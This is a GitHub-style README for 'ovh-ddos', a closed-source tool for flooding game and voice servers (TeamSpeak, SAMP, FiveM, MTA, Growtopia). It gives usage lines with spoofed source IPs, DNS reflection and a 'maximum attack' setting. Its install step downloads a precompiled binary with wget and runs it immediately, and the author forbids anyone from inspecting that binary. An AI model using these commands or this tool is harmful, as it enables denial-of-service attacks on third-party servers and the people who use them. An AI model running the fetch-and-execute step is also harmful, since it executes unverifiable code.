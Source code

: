 # ovh-ddos - Advanced Network Flood Tool

&#x20;

## 🚀 Overview

ovh-ddos is a powerful network testing tool designed for stress-testing various online services. It provides multiple attack vectors, allowing researchers to analyze network resilience against different types of traffic floods.

⚠️ **Disclaimer**: This tool is intended for educational and security research purposes only. Unauthorized usage against systems you do not own is illegal and strictly prohibited.

## 🔧 Installation

```bash
# Download the precompiled binary
wget https://raw.githubusercontent.com/ivanivek/ovh-ddos/refs/heads/main/ovh-ddos
chmod +x ovh-ddos ; ./ovh-ddos
```

## 📌 Usage

```bash
./ovh-ddos -i <interface> -h <host> [action] [options]
```

### 🎯 Example Usage

#### TeamSpeak Flood
```bash
./ovh-ddos -T -h ipadress -p teamspeakport -s sourceip -j pps -m thread -i interface
```

#### Maximum TeamSpeak Attack
```bash
./ovh-ddos -T -h ip -p 9987 -s random -j 800000000 -m 32 -i eth0
```

*The maximum attack configuration applies to all attack types and options for peak efficiency.*

#### SAMP Flood
```bash
./ovh-ddos -F -h ipadress -p sampport -s sourceip -j pps -m thread -i interface
```

#### FiveM Flood
```bash
./ovh-ddos -B -h ipadress -p 30120 -s sourceip -j pps -m thread -i interface
```

#### MTA Flood
```bash
./ovh-ddos -Q -h ipadress -p mtaport -s sourceip -j pps -m thread -i interface
```

## 🛠 Attack Types

| Action | Description                        |
| ------ | ---------------------------------- |
| `-T`   | TeamSpeak Flood (Verified packets) |
| `-B`   | FIVEM Flood (Partial validation)   |
| `-G`   | Growtopia/GTPS Flood               |
| `-L`   | TCP Middleboxes Attack             |
| `-F`   | SAMP Flood (Requires hexl.txt)     |
| `-Q`   | MTA Flood                          |
| `-W`   | DNS Reflection                     |

## ⚙️ Options

| Option           | Description                          |
| ---------------- | ------------------------------------ |
| `-i [interface]` | Specify network interface (Required) |
| `-h [host]`      | Target host(s)                       |
| `-p [port]`      | Target port (Default: Random)        |
| `-s [ip]`        | IP spoofing (CIDR supported, use `-s spoofing` for random source IPs) |
| `-j [pps]`       | Packets per second limit             |
| `-m [threads]`   | Number of threads (Default: 1)       |
| `-t [time]`      | Attack duration in seconds           |
| `--help`         | Show usage help                      |

## 🔥 Future Updates

If this project reaches **10+ GitHub stars**, new attack types will be added, including:

- **RAGE-MP Flood** (Targeting multiplayer game servers)
- **Rust Game Flood** (Packet stress testing for Rust servers)
- **More attack vectors** for testing various online services!

If this project reaches **50+ GitHub stars**, the **source code** will be made publicly available!

## ⚖️ Legal Disclaimer

This tool should only be used for testing and educational purposes on systems you have explicit permission to assess. The author is not responsible for any misuse of this software.

## 📜 License

This project is closed-source and proprietary. Redistribution, modification, or reverse engineering of the binary is strictly prohibited. Unauthorized use is not permitted.

